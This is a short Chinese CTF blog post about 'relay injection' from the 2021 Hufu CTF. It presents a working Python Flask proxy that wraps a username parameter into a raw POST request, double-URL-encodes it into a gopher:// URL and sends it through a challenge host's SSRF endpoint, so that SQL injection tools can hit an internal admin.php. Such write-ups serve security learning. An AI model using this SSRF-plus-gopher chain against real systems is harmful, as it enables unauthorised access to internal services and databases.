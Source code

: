 ```yaml
---
title: SQL注入技巧-配合Python-Flask的中转注入
categories: CTF
tags:
  - Trick
  - CTF
date: 2021-04-05 10:20:42
description: SQL注入小技巧，配合Python-Flask的中转注入
---
```


以本次虎符CTF为例，我们在进行常规SQL注入的时候，会遇到这几种情况
①常常会因为构造网络请求麻烦
②写tamper嫌麻烦

这时候我们的中转注入就来了，这次的虎符CTF比赛当中有一个Web题需要我们频繁构造gopher去实现POST或者GET请求，这时候如果我们想要实现更自由的SQL注入，便可使用，下面直接放上脚本，请自行理解，一点不难

```python
from flask import Flask,request
from urllib.parse import quote
import requests


def urlencode(s):
    res=''
    for c in s:
        fuck=hex(ord(c)).split('0x')[1]
        if len(fuck)==1:
            fuck='0'+fuck
        res+="%"+fuck
    return res

fuckhtml='''POST /admin.php HTTP/1.1
Host: 127.0.0.1
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: {length}

username={username}&password=129581926211651571912466741651878684928'''.replace("\n","\r\n")
tmpPayload= fuckhtml.split("\r\n")[-1]
tmplength = len(tmpPayload) - len('{username}')

url="http://eci-2zehhuwx9m3o88h32zup.cloudeci1.ichunqiu.com/ssrf.php?way=gopher%3A%2F%2F127.0.0.1:80%2F_"


app = Flask(__name__)


@app.route('/')
def hello_world():
    username=request.args.get('username')
    shit=fuckhtml.format(username=username,length=str(tmplength+len(username)))
    cookies={'PHPSESSID':'qitbcj1puicm4qcpf8oe1fgc17'}
    page=requests.get(url+urlencode(urlencode(shit)),proxies={'http':'http://127.0.0.1:8081'},cookies=cookies).text
    return page

if __name__ == '__main__':
    app.run()
```
当然我们可以去掉proxies参数，我这里加上只是为了和burpsuite实现联动